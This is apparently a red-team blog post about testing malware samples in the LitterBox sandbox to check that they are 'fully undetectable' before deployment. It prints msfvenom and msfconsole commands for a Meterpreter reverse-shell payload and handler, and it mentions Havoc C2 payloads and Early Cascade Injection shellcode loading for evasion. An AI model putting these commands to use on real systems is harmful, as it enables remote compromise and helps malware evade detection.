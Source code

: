 ```yaml
---
layout: post
title: LitterBox: The Sandbox for Malware Developers
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is importat to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Reccomended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![[/assets/Screenshot 2025-01-21 161217.png]]
![[/assets/Screenshot 2025-01-21 161301.png]]
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![[/assets/Screenshot 2025-01-21 151238.png]]
##### Active Process Inspection
![[/assets/Screenshot 2025-01-21 162202.png]]1

![[/assets/Screenshot 2025-01-21 162224.png]]

![[/assets/Screenshot 2025-01-21 162318.png]]
#### Commercial C2
![[Pasted image 20250122185634.png]]
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![[/assets/Pasted image 20250122184535.png]]
